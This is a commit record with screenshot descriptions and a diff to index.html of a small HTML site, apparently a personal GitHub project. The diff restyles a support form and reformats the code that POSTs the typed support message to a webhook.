

Before and after one commit to jackusbrownus5/Cookie-logging-in-stuff, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "Support". Shown: the part 240-800 px from the top of the page, without its empty margins (321-961 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -85,22 +85,23 @@
     .support-section {
       display: none;
       background: rgba(255, 255, 255, 0.1);
-      padding: 20px;
-      border-radius: 16px;
+      padding: 12px;
+      border-radius: 12px;
       box-shadow: 0 8px 24px rgba(0, 0, 0, 0.3);
-      margin-top: 20px;
+      margin-top: 15px;
       width: 100%;
       max-width: 400px;
       text-align: left;
+      font-size: 0.9em;
     }
     .support-textarea {
       width: 100%;
-      height: 120px;
-      padding: 12px;
+      height: 80px;
+      padding: 8px;
       border-radius: 8px;
       background-color: #3a3f47;
       color: white;
-      font-size: 1em;
+      font-size: 0.9em;
       resize: none;
       border: none;
     }
@@ -141,7 +142,6 @@
       font-weight: normal;
       display: none;
     }
-    .show { display: block; }
   </style>
 </head>
 <body>
@@ -200,16 +200,31 @@
           step++;
           setTimeout(nextStep, 500);
         } else {
-          fetch(webhookURL, { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ content: message }) })
-            .then(() => { statusMsg.textContent = '✅ Message sent!'; statusMsg.style.color = '#56ff89'; })
-            .catch(() => { statusMsg.textContent = '❌ Error sending message.'; statusMsg.style.color = '#ff5e5e'; });
-          setTimeout(() => { barContainer.style.display = 'none'; bar.style.width = '0%'; texts.forEach(t => t.style.display = 'none'); }, 1000);
+          fetch(webhookURL, {
+            method: 'POST',
+            headers: { 'Content-Type': 'application/json' },
+            body: JSON.stringify({ content: message })
+          })
+          .then(() => {
+            statusMsg.textContent = '✅ Message sent!';
+            statusMsg.style.color = '#56ff89';
+          })
+          .catch(() => {
+            statusMsg.textContent = '❌ Error sending message.';
+            statusMsg.style.color = '#ff5e5e';
+          });
+          setTimeout(() => {
+            barContainer.style.display = 'none';
+            bar.style.width = '0%';
+            texts.forEach(t => t.style.display = 'none');
+          }, 1000);
         }
       }
       nextStep();
     }
     function toggleSupportSection() {
-      document.getElementById('supportSection').classList.toggle('show');
+      const supportSection = document.getElementById('supportSection');
+      supportSection.style.display = (supportSection.style.display === 'none' || supportSection.style.display === '') ? 'block' : 'none';
     }
   </script>
 </body>
```
